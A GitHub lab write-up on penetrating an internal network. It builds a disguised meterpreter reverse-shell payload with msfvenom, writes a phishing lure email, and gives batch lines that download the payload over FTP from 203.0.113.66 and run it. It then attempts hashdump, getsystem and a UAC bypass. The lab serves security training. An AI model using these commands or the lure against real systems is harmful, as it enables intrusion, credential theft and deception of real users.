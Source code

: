 # Penetrating-an-Internal-Network


<h1>Phase 5</h1>


**<p style="font-size: 15px;">Step 1: Create a remote control payload.</p>**

I began this lab, as I have with many of the others, by elevating the Terminal window to use root privileges with the command "sudo su". Next, I went through the process of creating a new user, "adduser svcsupport". This new user account will be used as the credentials to download an exploit to the victim over FTP. Doing so will help to obfuscate, or hide, my identity if someone evaluates the malicious script. 

I then created a remote control payload with msfvenom, "msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 -f exe LHOST=203.0.113.66 LPORT=4444 -o /home/svcsupport/safetool.exe". Here is a breakdown of each part of the command, "-p" indicates the exploit to convert to shellcode, "--platform" sets the execution destination type (e.g., Windows), "-a" defines the platform architecture (e.g., x64), "-f" determines the output format (e.g., exe), "LHOST" sets the listening IP address for the receiving host, "LPORT" set the listening post number on the receiving host, and "-o" defines the output path and filename. 

Once the payload was created, I entered "ls -l /home/svcsupport" to confirm the existence of the exploit output file of safetool.exe. The file is displayed and is 7168 bytes in size. 

Next, I started the very secure FTP daemon with the command "service vsftpd start". Finally, I started the postgres with the command "service postgresql start". These services were previously downloaded to the lab and will be used to host the safetool.exe file, store the payload and deliver the exploit to the target system. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7f19a4b1-fcea-4695-9a44-f6f076cc5d7a)

**<p style="font-size: 15px;">Step 2: Setup the listener.</p>**

The listener must be set up to receive the inbound connection before the victim can be tricked into running the exploit payload. I began this phase by launching Metasploit utilizing the command "msfconsole". 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/776669b2-337c-4d01-8876-66622f3405e6)

Next, I changed the MSF prompt to a handler for reverse shell payloads with the command "use exploit/multi/handler". As you can see, the following line shows (Using configured payload generic/shel_reverse_tcp). To show the configuration details of the handler I input "show options". As currently configured the LPORT is already set to 4444, the default listening port for metasploit. Additionally, there is not LHOST set and the payload is still set to the generic/shell_reverse_tcp. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8291d92-cd56-40f7-b7ee-794163bd0e35)

Below, I used the commands "set payload windows/x64/meterpreter/reverse_tcp" and "set LHOST 203.0.113.66" to update the configurations to reflect the payload I will utilize and the host. The x64 architecture version is used because the MS10 system is a 64-bit operating system. More relaible results occur when the architecture of the exploit and the OS match. 

I re-entered the "show options" command to reveal the updates I made. Once the correct configuration was input, I initiated the MSFConsole as the listener by entering "run". The MSFConsole is now listening on the host 203.0.113.66 on port 4444 for any connections.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc92f829-fd31-40ea-b41c-9d433a6a10aa)

**<p style="font-size: 15px;">Step 3: Socially engineer the victim.</p>**

To save time, this lab assumes that I have already crafted and sent a social engineering message to jaime@structureality.com with a batch file attachment, using the Social Engineering Toolkit (SET) as demonstrated in a previous lab. Later on I will create the batch file. 

In this step, I will operate as Jaime, the victim, who has been fooled by a social engineering email. The email had the following statement:

Dear Customer,

It has come to our attention that your accounts are outdated and need additional configuration to continue providing optimal services. Here is a tool that will automate the process of improving your configuration so you can continue to enjoy the full benefits of our services. 

Please run the attached file at your earliest convenience.

Note: The operation of the update may take considerable time. Minimize the Command Prompt window and continue using your system normally.  

Sincerely,
The Support Department 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7bf68f95-ffd8-459b-bd48-98c878ab8ef8)

To create the batch file, I opened the command prompt and entered "notepad c:\Users\jaime\Downloads\trythis.bat". This command opened Notepad and created a new file in the specified directory.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/735bbd9d-b7c4-4e4f-9556-e571d16902fa)

Notepad pops up, and I am asked if I would like to create the new file. I select, Yes.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/c15b5d52-9417-4c60-b72d-b8bc93f2a1fd)

I then typed the following lines of code into Notepad:

"C:\Program Files (x86)\WinSCP\winscp" /ini=nul /command "open ftp://svcsupport:Pa$$w0rd@203.0.113.66/ -hostkey=open" "get safetool.exe %userprofile%\Downloads\" "exit"

"%userprofile%\Downloads\safetool.exe"

These commands facilitate the download and execution of the exploit file on the victim's system. The strategic use of a basic batch file is effective in circumventing malware scanners that may otherwise detect and remove the exploit from an email. I saved the notepad and exited.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/44a81139-5023-4440-aacb-15c752b6a1fe)

I then opened the File Explorer, selected downloads and double clicked on the trythis file to download the batch file. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7e793e40-644a-4982-8ca9-2a57a5981999)

Downloading the batch file caused the below command prompt to open, displaying the batch file's operations. As the email instructed, I minimized the window and continued my work day. The victim has been compromised and a remote control session has been established with the listener.  

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8b53073-7666-4ce2-afcc-84719bd5b36b)

I returned to the Kali Terminal Window to reveal the session opened between the attack system and Jaime's system.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/3e7ce2ef-4d3f-43ae-8664-30071b9b8dc4)

**<p style="font-size: 15px;">Step 4: Take advantage of the exploited victim.</p>**

In the terminal I entered "sysinfo" to view the details of Jaime's compromised system. Here we can see the computer name, MS10, Operating System, Windows 2016, Archetiecture, X64 and more. Next, I entered "getuid" to view the user account that created the remote sessions, Jaime.

I then tried a command to see if I currently had enough privileges to steal password hashes. This commands was "hashdump". As you can see the error *priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect* appears next indicating the command was not successful. I needed to escalate my privileges within the system to gain access to the passwords and entered "getsystem" to attempt a privilege escalation to SYSTEM privileges. This also resulted in a failure, several lines appear to denote what was attempted and failed. 

Due to these failures, I needed to perform an additional exploit against the system to gain additional capabilities. First, I needed to leave the connected session, but keep it preserved so that I could return later. To do this I entered the command "background".

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/37cf91b5-5adb-4ae0-a427-c2af5a0783bc)

I entered, "use exploit/windows/local/bypassuac_silentcleanup" to utilize an exploit module used to bypass User Access Control on Windows Systems. The *local* path element indicates this exploit must be run from the victim's local system instead of remotely or externally exploited.

"info" was entered next to display the information of the current exploit.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/091b0a44-cf32-4b50-a513-c98ef0322f37)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/50cb209c-8fe3-47f9-9a40-aac8d3c066b8)

Next, I entered "show options" to check the host and port for the current session.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/2b2eca48-9dcb-43ed-a626-fd7e6f0dac6d)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/f36ea8ca-fe63-44d6-80a8-644b278b9e51)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/78074d05-e177-4390-93f0-4740ae567606)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/9791e984-f45c-467a-b426-0f82afda102f)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc638e30-4482-4326-8b09-dda42f94c4ad)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7a08a906-5ba2-4ebe-97d6-da5abc5b8732)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/8db7738a-717f-479a-8b39-eb0f1aba1d90)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ed720de7-11ac-4953-9b90-672bcc506bac)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ca7101f7-04b9-42e0-bc49-1d75240ed48f)







